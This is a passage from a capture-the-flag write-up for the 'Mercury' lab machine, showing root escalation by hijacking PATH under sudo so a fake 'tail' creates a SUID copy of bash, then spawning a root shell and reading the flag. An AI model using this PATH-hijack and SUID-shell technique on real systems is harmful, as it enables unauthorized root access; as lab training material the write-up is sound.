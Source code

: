 This script will copy `/bin/bash` to `/tmp/rootbash` and set the SUID bit (4755) on it, allowing it to be executed with root privileges.

I made the script executable:

```shellscript
linuxmaster@mercury:~$ chmod +x tail
```

Now, I executed `check_syslog.sh` using `sudo`, ensuring my modified `PATH` is used:

```shellscript
linuxmaster@mercury:~$ sudo PATH=/home/linuxmaster:$PATH /usr/bin/check_syslog.sh
```

This command tells `sudo` to execute `/usr/bin/check_syslog.sh` while setting the `PATH` environment variable to include `/home/linuxmaster` at the beginning. When `check_syslog.sh` runs `tail`, it will find and execute my malicious `tail` script first.

After running the command, I verified that `/tmp/rootbash` was created and had the SUID bit set:

```shellscript
linuxmaster@mercury:~$ ls -la /tmp/rootbash
-rwsr-xr-x  1 root root 1183448 Jul 15 11:23 rootbash
```

The `s` in `-rwsr-xr-x` confirms the SUID bit is set.

Finally, I executed the SUID binary to get a root shell:

```shellscript
linuxmaster@mercury:~$ /tmp/rootbash -p
```

The `-p` flag ensures that the effective UID is preserved, giving me a root shell.

```shellscript
rootbash-5.0# id
uid=1002(linuxmaster) gid=1002(linuxmaster) euid=0(root) groups=1002(linuxmaster),1003(viewsyslog)
```

The `euid=0(root)` confirms successful root privilege escalation.

## Root Flag

With root privileges, I navigated to the `/root` directory to retrieve the final flag:

```shellscript
rootbash-5.0# cd /root
rootbash-5.0# ls
root_flag.txt
rootbash-5.0# cat root_flag.txt
```

The content of `root_flag.txt` was:

```plaintext
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
/##////////@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```
